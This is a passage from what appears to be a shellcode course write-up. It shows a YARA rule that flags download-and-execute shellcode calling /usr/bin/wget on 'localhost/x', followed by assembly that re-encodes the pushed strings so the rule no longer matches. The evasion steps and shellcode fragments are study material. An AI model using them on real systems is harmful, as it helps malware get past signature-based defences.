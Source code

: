 The shellcode download a file "x" and execute it which displays an "HelloWorld" as we can see.

We supposed that the yara rule as follows flagged our original shellcode.

    rule download_exec_shell {
	    meta:
		    description = "Personal rule"
	    strings:
		    $y1 = {74 2f 2f 78} 
		    $y2 = {6C 68 6F 73}
		    $y3 = {6C 6f 63 61}
		    $y4 = {2f 77 67 65}
		    $y5 = {2f 62 69 6e}
		    $y6 = {2f 75 73 72}
	    condition:
	    $y1 and $y2 and $y3 or $y4 and $y5 and $y6 
    }

The y1 to y3 strings correspond to the instruction for the setting of the "localhost/x":
    
    push 0x782f2f74  ; x//t
    push 0x736F686C  ; sohl
    push 0x61636f6c  ; acol

And the y4 to y6 strings correspond to the instrution for the setting of the "/usr/bin/wget":
    
    push 0x74
    push 0x6567772f ;egw/
    push 0x6e69622f ;nib/
    push 0x7273752f ;rsu/ 

The Yara rule triggered the detection as follows:

<img src="/assets/slae32-img/assignment6/assignment6.7.PNG" alt="drawing" style="width:900px;"/> 

Then, we modified our strings to bypass the Yara rule.

Modifications to bypass the "localhost/x" condition:

    mov dword [esp-4], 0x782f2f74 ; t//x
    mov dword [esp-8], 0x736F686C ; lhos
    mov esi, 0x50525e5b
    add esi, 0x11111111
    mov dword [esp-12], esi ; loca
